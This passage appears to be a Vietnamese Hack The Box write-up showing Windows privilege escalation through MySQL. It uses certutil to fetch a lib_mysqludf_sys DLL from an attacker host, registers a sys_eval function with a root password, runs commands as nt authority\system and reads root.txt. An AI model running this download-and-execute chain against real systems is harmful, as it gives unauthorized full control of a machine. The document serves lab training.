

Chạy tiếp lệnh: `icacls “C:\MySQL\lib\plugin” > C:\Users\KioskUser\Downloads\perms.txt`  
Chạy lệnh: `type C:\Users\KioskUser\Downloads\perms.txt`



Màn hình báo `Successfully Processed 1 files` !!!  
Chạy lệnh: `certutil -urlcache -split -f http://10.10.11.21:9090/lib_mysqludf_sys_64.dll C:\MySQL\lib\plugin\lib_mysqludf_sys_64.dll`



Vẫn ở máy nạn nhân (Windows) ta chạy lệnh: `C:\MySQL\bin\mysql.exe -u root -p”HTB@irw4ys_DB!2026″ -e “CREATE FUNCTION sys_eval RETURNS STRING SONAME ‘lib_mysqludf_sys_64.dll’;”`  

  

Chạy lệnh: `C:\MySQL\bin\mysql.exe -u root -p”HTB@irw4ys_DB!2026″ -e “SELECT (sys_eval(‘whoami’));”` để kiểm tra quyền hạn của chúng ta



Ta có 1 mã Hex, nếu đổi mã Hex ra Text thì nó sẽ là `nt authority\system`  
Như vậy ta đã chiếm thành công quyền root



Chạy lệnh: ` C:\MySQL\bin\mysql.exe -u root -p”HTB@irw4ys_DB!2026″ -e SELECT CAST(sys_eval('type C:\\Users\\Administrator\\Desktop\\root.txt') AS CHAR);`
để lấy đáp án



